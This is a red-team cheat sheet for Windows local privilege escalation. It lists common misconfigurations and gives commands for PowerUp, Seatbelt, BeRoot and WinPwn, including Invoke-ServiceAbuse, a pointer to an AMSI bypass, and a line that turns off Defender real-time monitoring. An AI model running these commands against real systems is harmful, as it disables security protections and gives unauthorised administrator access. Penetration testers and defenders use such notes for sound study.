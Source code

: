 # Local Privilege Escalation

## Ways for local privesc

* Missing patches
* Automated deployment (e.g. C:\Windows\panther\unattend.xml, C:\Windows\Panther, C:\Windows\Panther\UnattendGC, C:\Windows\System32\sysprep\Panther, s ) and AutoLogon passwords in clear text in Windowds Registry
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misonfigured Services (e.g. Unquoted Service path, Permissions with Services/Directories
* DLL Hijacking                 &#x20;
* Tools: PowerUp, BeRoot, Privesc, Seatbelt

## Service Issues using PowerUp

**Do all checks**\
. .\PowerUp.ps1\
Invoke-AllChecks

**Get services with unquoted paths an a space in their name**\
GetServiceUnquoted -Verbose

**Get services where the current user can write to its binary path or change arguments to the binary**\
Get-ModifiableServiceFile -Verbose&#x20;

**Get the services whose configuration current user can modify (e.g ACLs of the Service, maybe point service to different executable**\
****Get-ModifiableService -Verbose&#x20;

****

****

## Seatbelt Checks

.\seatbelt.exe all

## **Misc**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**\
Set-MpPreference -DisableRealtimeMonitoring $true

**Check Powershell Language Mode**\
$ExecutionContext.SessionState.LanguageMode

**AppLocker Policy**\
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
